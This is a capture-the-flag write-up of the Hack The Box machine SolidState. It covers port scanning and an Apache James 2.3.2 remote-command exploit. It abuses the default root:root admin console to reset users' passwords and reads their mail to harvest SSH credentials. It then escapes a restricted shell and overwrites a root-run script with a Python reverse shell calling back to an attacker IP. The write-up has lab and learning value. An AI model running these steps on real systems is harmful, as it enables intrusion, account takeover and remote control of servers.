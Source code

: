 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-30 09:38 EDT
Nmap scan report for 10.129.29.189
Host is up (0.19s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
110/tcp open  pop3?
119/tcp open  nntp?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/30%OT=22%CT=1%CU=43383%PV=Y%DS=2%DC=T%G=Y%TM=6104024
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW6%O2=M54DST11NW6%O3=M54DNNT11NW6%O4=M54DST11NW6%O5=M54DST1
OS:1NW6%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   188.49 ms 10.10.14.1
2   188.57 ms 10.129.29.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 381.65 seconds
```
#enumeration 
ran gobuster and got 
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/assets               (Status: 301) [Size: 315] [--> http://10.129.29.189/assets/]
/images               (Status: 301) [Size: 315] [--> http://10.129.29.189/images/]
/index.html           (Status: 200) [Size: 7776]                                  
/server-status        (Status: 403) [Size: 301] 
```
in the assests directory we had a few js and css files and scss files as well.Tried to read the js or the css files but before going to read each and every file individually I tried enumerating 25,110 ,119,4555
Trying to login to each these ports I found  JAMES POP3 Server 2.3.2 running in these ports.
Now doing searchsploit I actually found 
```
Apache James Server 2.2 - SMTP Denial of Service                                                                | multiple/dos/27915.pl
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)                            | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                                            | linux/remote/35513.py
WheresJames Webcam Publisher Beta 2.0.0014 - Remote Buffer Overflow                                             | windows/remote/944.c
---------------------------------------------------------------------------------------------------------------- ------------------------
```
RCE exploits dude 
```
python /usr/share/exploitdb/exploits/linux/remote/35513.py 10.129.29.189

[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```
reading the script and about the exploit  I found that the port 4555 has default user root:root 
link:https://crimsonglow.ca/~kjiwa/2016/06/exploiting-apache-james-2.3.2.html
```
Apache James is highly configurable and can store data files in a variety of media, including disks and databases. Apache James exposes an administration console allowing privileged users to configure and manage the server and tweak its functions. By default, the server is configured to listen for email transactions on network port 25 and administration transactions on port 4555.
```
Now I logged into port 4555 and typed help to get list of commands
Now after that we use setpassword  to change password for each and every client and
```
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword thomas pass
Password for thomas reset
setpassword john pass
Password for john reset
setpassword mindy pass
Password for mindy reset
setpassword mailadmin pass     
Password for mailadmin reset


```
link:https://book.hacktricks.xyz/pentesting/pentesting-pop
then  we login to pop3 to see any mails in these users
```
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```
this is what we get from john's mail 
So let us see mindy's mail
and we get the ssh creds
```
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We get logged in  and we have the user flag but we can't run any other commands
it was a restricted shell and on doing echo $SHELL it was a rbash shell.
link:https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
To escape the rbash tried every trick in this article but nothing worked as it had no text editors or prog language access.
then i tried rbash to bash :
link:https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290
```ssh mindy@ip "bash --noprofile"```
#rootescalation 
no sudo command was there neither were any SUID binaries
and crontab was not also there so without any 2nd thought ran linpeas
and first thing i generally see after running linpeas is any SUID or any group writable file
and we got a lot of writeable files
```
/dev/mqueue                                                                                                                                       
/dev/shm
/home/mindy
/opt/tmp.py
/run/lock
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/run/user/1001/systemd/transient
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/var/tmp
```
now we get this file tmp.py
that is writable but executes as root
```-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```
so we overwrite this file with out own python exploit
```echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > tmp.py```
and then ran it with nc listener open 
and we got our root shell
```
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
4f4afb55463c3bc79ab1e906b074953d
```

BEST BOX REVISING THE MAIL SERVERS LIKE POP3 or PORT 4555

link:https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf


